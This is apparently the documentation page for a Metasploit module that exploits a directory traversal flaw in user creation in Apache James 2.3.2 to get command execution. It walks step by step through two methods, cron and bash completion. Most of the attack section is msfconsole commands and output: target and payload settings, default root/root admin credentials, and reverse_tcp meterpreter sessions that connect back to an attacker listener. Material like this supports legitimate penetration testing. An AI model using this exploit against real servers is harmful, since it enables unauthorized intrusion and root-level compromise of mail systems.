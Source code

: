 ## Vulnerable Application

This module exploits a vulnerability that exists due to a lack of input
validation when creating a user in Apache James 2.3.2. By creating a user with a
directory traversal payload as the username, commands can be written to a given
directory/file. Instructions for installing the vulnerable application for
testing can be found here:
https://www.exploit-db.com/docs/english/40123-exploiting-apache-james-server-2.3.2.pdf

## Verification Steps

**1.** Start msfconsole

**2.** DO: Load module exploit/linux/smtp/apache_james_exec

**3.** DO: Set the remote and local options: rhosts, lhosts, lport

**4.** DO: Set the preferred payload

**5.** DO: Run the check method to determine vulnerability

**6.** DO: Run the exploit

**7.** The payload will connect to the listener if the exploit is successful

## Options

**USERNAME:** The administrator username for Apache James 2.3.2 remote
administration tool. By default this is 'root'.

**PASSWORD:** The administrator password for Apache James 2.3.2 remote
administration tool. By default this is 'root'.

**ADMINPORT:** The port for Apache James 2.3.2 remote administration tool. By
default this is '4555'.

**RHOSTS:** The IP address of the vulnerable server.

**RPORT:** The port number of the SMTP service.

**POP3PORT** The port for the POP3 Apache James Service. By default this '110'.

## Scenarios

**If using Cron exploitation method:** This method allows for automatic
execution of the payload with no user interaction required and gives the
attacker root privileges. It will also attempt to automatically cleanup the
malicious user and the mail objects.

**1.** Load the module:

```
  msf5 > use exploit/linux/smtp/apache_james_exec
```

**2.** Set remote and local options:

```
  msf5 exploit(linux/smtp/apache_james_exec) > set target 1
  target => 1
  msf5 exploit(linux/smtp/apache_james_exec) > set rhosts  192.168.224.169
  rhosts =>  192.168.224.169

  msf5 exploit(linux/smtp/apache_james_exec) > set lhost 192.168.224.167
  lhost => 192.168.224.167
  msf5 exploit(linux/smtp/apache_james_exec) > set lport 4444
  lport => 4444
```

**3.** Set payload:

```
  msf5 exploit(linux/smtp/apache_james_exec) > set payload linux/x64/meterpreter/reverse_tcp
  payload => linux/x64/meterpreter/reverse_tcp
```

**4.** Check version and run exploit:

```
  msf5 exploit(linux/smtp/apache_james_exec) > check
  [*] 192.168.224.164:25 - The target appears to be vulnerable.
  msf5 exploit(linux/smtp/apache_james_exec) > exploit

  [*] Started reverse TCP handler on 192.168.224.167:4444
  [+] 192.168.224.169:25 - Waiting 60 seconds for cron to execute payload
  [*] Sending stage (3021284 bytes) to 192.168.224.169
  [*] Meterpreter session 1 opened (192.168.224.167:4444 -> 192.168.224.169:38694) at 2020-02-02 16:30:02 -0800
  [*] 192.168.224.169:25 - Command Stager progress - 100.00% done (812/812 bytes)

  meterpreter >
```

---

**If using Bash Completion:** This method may be preferable if targeting a linux
operating system such as some versions of Ubuntu that fails to run the cron
method for exploitation. This exploitation method will leave an Apache James
mail object artifact in the /etc/bash_completion.d directory and the malicious
user account.

**1.** Load the module:

```
  msf5 > use exploit/linux/smtp/apache_james_exec
```

**2.** Set remote and local options:

```
  msf5 exploit(linux/smtp/apache_james_exec) > set target 0
  target => 0
  msf5 exploit(linux/smtp/apache_james_exec) > set rhosts 192.168.224.164
  rhosts => 192.168.224.164

  msf5 exploit(linux/smtp/apache_james_exec) > set lhost 192.168.224.167
  lhost => 192.168.224.167
  msf5 exploit(linux/smtp/apache_james_exec) > set lport 4444
  lport => 4444
```

**3.** Set payload:

```
  msf5 exploit(linux/smtp/apache_james_exec) > set payload linux/x64/meterpreter/reverse_tcp
  payload => linux/x64/meterpreter/reverse_tcp
```

**4.** Check version and run exploit:

```
  msf5 exploit(linux/smtp/apache_james_exec) > check
  [*] 192.168.224.164:25 - The target appears to be vulnerable.
  msf5 exploit(linux/smtp/apache_james_exec) > exploit

  [*] 192.168.224.164:25 - Command Stager progress - 100.00% done (812/812 bytes)
```

**5.** Set up and run listener (Can be done before running exploit):

```
  msf5 exploit(linux/smtp/apache_james_exec) > use exploit/multi/handler
  msf5 exploit(multi/handler) > set payload linux/x64/meterpreter/reverse_tcp
  payload => linux/x64/meterpreter/reverse_tcp
  msf5 exploit(multi/handler) > set lport 4444
  lport => 4444
  msf5 exploit(multi/handler) > set lhost 192.168.224.167
  lhost => 192.168.224.167

  msf5 exploit(multi/handler) > run

  [*] Started reverse TCP handler on 192.168.224.167:4444
  [*] Sending stage (3021284 bytes) to 192.168.224.164
  [*] Meterpreter session 1 opened (192.168.224.167:4444 -> 192.168.224.164:34752) at 2020-01-18 18:25:14 -0800

  meterpreter >
```

## Targets

```
  Id  Name
  --  ----
  0   Bash Completion
  1   Cron
```

## References

1. <https://www.exploit-db.com/exploits/35513>
2. <https://www.exploit-db.com/docs/english/40123-exploiting-apache-james-server-2.3.2.pdf>

